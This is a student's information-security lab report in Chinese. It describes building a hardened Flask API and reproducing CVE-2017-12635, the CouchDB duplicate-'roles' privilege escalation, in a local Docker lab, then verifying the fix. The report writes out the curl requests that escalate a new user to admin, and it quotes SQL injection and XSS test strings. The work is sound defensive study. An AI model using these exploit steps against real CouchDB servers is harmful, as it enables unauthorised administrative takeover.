


# 信息安全实验一

## 基于 Flask 的安全 API 与 CVE-2017-12635 复现

| 项目 | 内容 |
|---|---|
| 变体 | CVE-2017-12635 |
| 姓名 | Guo Ruihao |
| HDU 学号 | 23320309 |
| 小组 | 无 |
| 日期 | 2026-10-20 |
| 仓库 | <https://github.com/zhangyu7777777/InformationSecurity_23320309> |
| CI 运行 | <https://github.com/zhangyu7777777/InformationSecurity_23320309/actions/runs/39198485372> |

## 一、实验目的

1. 用 Flask 写一个简单的 REST API。
2. 实现登录、JWT 验证、bcrypt 密码加密。
3. 防 SQL 注入和 XSS。
4. 用 GitHub Actions 自动运行测试和安全扫描。
5. 在 Docker 里复现 CVE-2017-12635，并验证修复。

## 二、实验环境

- Windows 11
- Python 3.11
- Flask、SQLite
- bcrypt、PyJWT
- pytest、Bandit、pip-audit
- Docker Desktop、Docker Compose
- GitHub Actions

## 三、API 实现

后端代码都在 `app.py` 里，数据库用 SQLite。

| 方法 | 路径 | 是否需要登录 | 作用 |
|---|---|---|---|
| POST | `/auth/login` | 否 | 登录并返回 JWT |
| GET | `/api/data` | 是 | 获取帖子，可用 `?q=` 搜索 |
| POST | `/api/data` | 是 | 新增帖子 |

第一次运行会自动建表，并创建两个测试用户：

- `alice / 123456`，管理员
- `bob / 123456`，普通用户

登录成功后返回 token。访问 `/api/data` 时要在请求头里加：

```text
Authorization: Bearer <token>
```

没有 token 或 token 错误时返回 401。

## 四、安全措施

### 1. 防 SQL 注入

所有 SQL 都用 `?` 占位符，例如：

```python
conn.execute("SELECT * FROM users WHERE username = ?", (username,))
```

搜索接口也是用两个 `?`，没有把用户输入拼进 SQL。

测试里发送 `' OR 1=1 --`，返回结果是空列表，说明注入没有成功。

### 2. 防 XSS

返回数据前用 `html.escape()` 转义：

```python
"title": html.escape(row["title"])
```

测试里提交 `<script>alert(1)</script>`，返回的内容里不会出现可执行的
`<script>` 标签。

### 3. 登录和密码

- 密码先用 bcrypt 加密，再存进数据库。
- 登录成功后用 PyJWT 生成 token。
- token 里包含用户 id、用户名和过期时间。
- 后端用 `jwt.decode(..., algorithms=["HS256"])` 验证签名。

## 五、CI

GitHub Actions 在每次 push 时运行：

| 步骤 | 结果 |
|---|---|
| `pytest -q` | 6 passed |
| `bandit app.py` | No issues identified |
| `pip-audit -r requirements.txt` | No known vulnerabilities found |

Bandit 和 pip-audit 的 JSON 报告会作为 `security-reports` artifact 上传。

## 六、CVE-2017-12635

### 1. 漏洞说明

CVE-2017-12635 是 Apache CouchDB 2.1.1 之前的权限提升漏洞。

CouchDB 用 Erlang 写的 JSON 解析器检查权限，用 JavaScript 写的解析器保存
用户文档。如果请求里有重复的 `roles` 键，两个解析器会看到不同的值：

- 权限检查看到第一个 `roles`：`["_admin"]`
- 保存文档看到最后一个 `roles`：`[]`

这样普通用户就能把自己变成管理员。

### 2. 启动漏洞环境

```bash
cd vulhub/couchdb/CVE-2017-12635
docker compose up -d
```

服务地址是 `http://127.0.0.1:5984`。

在 Windows 上，Vulhub 的 `init.sh` 可能是 CRLF 换行，导致 init 容器报
`$'\r': command not found`。把脚本转成 LF 后重启 init 容器即可。

### 3. 复现过程

先发正常的请求，想直接设置管理员角色：

```bash
curl -i -X PUT http://127.0.0.1:5984/_users/org.couchdb.user:vulhub \
  -H "Content-Type: application/json" \
  --data-binary @cve/normal_user.json
```

结果是 403：

```text
{"error":"forbidden","reason":"Only _admin may set roles"}
```

再发带两个 `roles` 的请求：

```bash
curl -i -X PUT http://127.0.0.1:5984/_users/org.couchdb.user:vulhub \
  -H "Content-Type: application/json" \
  --data-binary @cve/duplicate_roles.json
```

结果是 201 Created。

登录新用户：

```bash
curl -u vulhub:vulhub http://127.0.0.1:5984/_session
```

```json
{"ok":true,"userCtx":{"name":"vulhub","roles":["_admin"]},...}
```

再用这个用户创建数据库：

```bash
curl -i -u vulhub:vulhub -X PUT http://127.0.0.1:5984/evil_db
```

返回 201，说明已经拿到管理员权限。

### 4. 原因分析

这个漏洞不是 SQL 注入，也不是密码泄露，而是**两个 JSON 解析器对重复键的
处理不一致**。

同一个请求在权限检查阶段和保存阶段被解析成了两个不同的用户文档。权限检查
看到管理员角色，保存时却保存了普通角色，最后数据库里的用户就变成了管理员。

### 5. 修复

把 CouchDB 升级到 2.1.1：

```bash
docker compose -f cve/fixed/docker-compose.yml up -d
```

修复版运行在 `http://127.0.0.1:5985`。

### 6. 修复验证

| 检查项 | CouchDB 2.1.0 | CouchDB 2.1.1 |
|---|---|---|
| 正常设置 `_admin` | 403 | 403 |
| 重复 `roles` 请求 | 201 | 201 |
| 登录后的角色 | `["_admin"]` | `[]` |
| 创建数据库 | 201 | 401 |
| 普通用户注册 | 201 | 201 |

2.1.1 里重复键仍然会被接受，但两个解析器看到的值一致，所以用户不会拿到
管理员角色。普通用户注册仍然返回 201，说明修复没有破坏正常功能。

### 7. 截图






## 七、总结

这次实验让我了解了 SQL 注入、XSS、JWT 和密码哈希的基本写法，也学会了用
Bandit 和 pip-audit 做自动检查。

CVE 部分让我印象比较深的是：代码看起来没有问题，但如果两个组件对同一个
输入的理解不一样，也可能出现权限绕过。修复时升级版本是最直接的方法，同时
还要测试正常功能有没有被影响。
